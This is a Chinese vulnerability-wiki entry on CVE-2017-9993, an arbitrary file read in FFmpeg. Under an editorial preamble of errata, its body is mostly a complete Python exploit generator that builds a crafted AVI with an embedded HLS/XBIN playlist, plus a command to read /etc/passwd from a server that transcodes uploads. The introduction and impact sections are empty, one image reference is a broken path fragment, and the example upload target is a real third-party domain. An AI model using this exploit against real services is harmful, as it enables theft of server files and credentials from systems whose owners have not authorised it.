

# （CVE-2017-9993）Ffmpeg 任意文件读取漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：FFmpeg AVI/HLS/XBIN
- 文献类型：文件读取PoC转存
- 版本、权限及部署边界：后端转码上传文件并展示结果；脚本依赖/dev/zero及目标可读，版本未给
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 与《FFmpeg AVI任意文件读取漏洞CVE-2017-9993》生成器几乎相同，本篇漏洞简介和影响章节为空
2. 样例使用www.0-sec.org:8080真实第三方域名，应换说明性占位而非当授权靶场
3. 相对图片Markdown后重复路径残片，Git资产存在但截图未查看；不能以图当已验证结果
4. 缺原neex生成器署名/提交与修复版本，只有Vulhub旧链接；完整读取受脚本5000字节目标限制
5. 无独立平台/版本证据，合并时优先保留来源更完整篇及本图来源

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<http://www.0-sec.org:8080/`上传。后端将会将你上传的视频用ffmpeg转码后显示，转码时因为ffmpeg的任意文件读取漏洞，可将文件信息读取到视频中：>
- 原文参考链接（未重新核验）：<https://vulhub.org/\#/environments/ffmpeg/phdays/>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

Ffmpeg 任意文件读取漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

使用exp生成payload

    ./gen_xbin_avi.py file:///etc/passwd exp.avi

生成exp.avi，在`http://www.0-sec.org:8080/`上传。后端将会将你上传的视频用ffmpeg转码后显示，转码时因为ffmpeg的任意文件读取漏洞，可将文件信息读取到视频中：

Ffmpeg任意文件读取漏洞/media/rId24.png)

### poc

    #!/usr/bin/env python3
    import struct
    import argparse
    import random
    import string

    AVI_HEADER = b"RIFF\x00\x00\x00\x00AVI LIST\x14\x01\x00\x00hdrlavih8\x00\x00\x00@\x9c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00}\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\xe0\x00\x00\x00\xa0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00LISTt\x00\x00\x00strlstrh8\x00\x00\x00txts\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x19\x00\x00\x00\x00\x00\x00\x00}\x00\x00\x00\x86\x03\x00\x00\x10'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\x00\xa0\x00strf(\x00\x00\x00(\x00\x00\x00\xe0\x00\x00\x00\xa0\x00\x00\x00\x01\x00\x18\x00XVID\x00H\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00LIST    movi"

    ECHO_TEMPLATE = """### echoing {needed!r}
    #EXT-X-KEY: METHOD=AES-128, URI=/dev/zero, IV=0x{iv}
    #EXTINF:1,
    #EXT-X-BYTERANGE: 16
    /dev/zero
    #EXT-X-KEY: METHOD=NONE
    """

    # AES.new('\x00'*16).decrypt('\x00'*16)
    GAMMA = b'\x14\x0f\x0f\x10\x11\xb5"=yXw\x17\xff\xd9\xec:'

    FULL_PLAYLIST = """#EXTM3U
    #EXT-X-MEDIA-SEQUENCE:0
    {content}
    #### random string to prevent caching: {rand}
    #EXT-X-ENDLIST"""

    EXTERNAL_REFERENCE_PLAYLIST = """
    ####  External reference: reading {size} bytes from {filename} (offset {offset})
    #EXTINF:1,
    #EXT-X-BYTERANGE: {size}@{offset}
    {filename}
    """

    XBIN_HEADER = b'XBIN\x1A\x20\x00\x0f\x00\x10\x04\x01\x00\x00\x00\x00'

    def echo_block(block):
        assert len(block) == 16
        iv = ''.join(map('{:02x}'.format, [x ^ y for (x, y) in zip(block, GAMMA)]))
        return ECHO_TEMPLATE.format(needed=block, iv=iv)

    def gen_xbin_sync():
        seq = []
        for i in range(60):
            if i % 2:
                seq.append(0)
            else:
                seq.append(128 + 64 - i - 1)
        for i in range(4, 0, -1):
            seq.append(128 + i - 1)
        seq.append(0)
        seq.append(0)
        for i in range(12, 0, -1):
            seq.append(128 + i - 1)
        seq.append(0)
        seq.append(0)
        return seq

    def test_xbin_sync(seq):
        for start_ind in range(64):
            path = [start_ind]
            cur_ind = start_ind
            while cur_ind < len(seq):
                if seq[cur_ind] == 0:
                    cur_ind += 3
                else:
                    assert seq[cur_ind] & (64 + 128) == 128
                    cur_ind += (seq[cur_ind] & 63) + 3
                path.append(cur_ind)
            assert cur_ind == len(seq), "problem for path {}".format(path)

    def echo_seq(s):
        assert len(s) % 16 == 0
        res = []
        for i in range(0, len(s), 16):
            res.append(echo_block(s[i:i + 16]))
        return ''.join(res)

    test_xbin_sync(gen_xbin_sync())

    SYNC = echo_seq(gen_xbin_sync())

    def make_playlist_avi(playlist, fake_packets=1000, fake_packet_len=3):
        content = b'GAB2\x00\x02\x00' + b'\x00' * 10 + playlist.encode('ascii')
        packet = b'00tx' + struct.pack('<I', len(content)) + content
        dcpkt = b'00dc' + struct.pack('<I',
                                      fake_packet_len) + b'\x00' * fake_packet_len
        return AVI_HEADER + packet + dcpkt * fake_packets

    def gen_xbin_packet_header(size):
        return bytes([0] * 9 + [1] + [0] * 4 + [128 + size - 1, 10])

    def gen_xbin_packet_playlist(filename, offset, packet_size):
        result = []
        while packet_size > 0:
            packet_size -= 16
            assert packet_size > 0
            part_size = min(packet_size, 64)
            packet_size -= part_size
            result.append(echo_block(gen_xbin_packet_header(part_size)))
            result.append(
                EXTERNAL_REFERENCE_PLAYLIST.format(
                    size=part_size,
                    offset=offset,
                    filename=filename))
            offset += part_size
        return ''.join(result), offset

    def gen_xbin_playlist(filename_to_read):
        pls = [echo_block(XBIN_HEADER)]
        next_delta = 5
        for max_offs, filename in (
                (5000, filename_to_read), (500, "file:///dev/zero")):
            offset = 0
            while offset < max_offs:
                for _ in range(10):
                    pls_part, new_offset = gen_xbin_packet_playlist(
                        filename, offset, 0xf0 - next_delta)
                    pls.append(pls_part)
                    next_delta = 0
                offset = new_offset
            pls.append(SYNC)
        return FULL_PLAYLIST.format(content=''.join(pls), rand=''.join(
            random.choice(string.ascii_lowercase) for i in range(30)))

    if __name__ == "__main__":
        parser = argparse.ArgumentParser('AVI+M3U+XBIN ffmpeg exploit generator')
        parser.add_argument(
            'filename',
            help='filename to be read from the server (prefix it with "file://")')
        parser.add_argument('output_avi', help='where to save the avi')
        args = parser.parse_args()
        assert '://' in args.filename, "ffmpeg needs explicit proto (forgot file://?)"
        content = gen_xbin_playlist(args.filename)
        avi = make_playlist_avi(content)
        output_name = args.output_avi

        with open(output_name, 'wb') as f:
            f.write(avi)

参考链接
--------

> https://vulhub.org/\#/environments/ffmpeg/phdays/
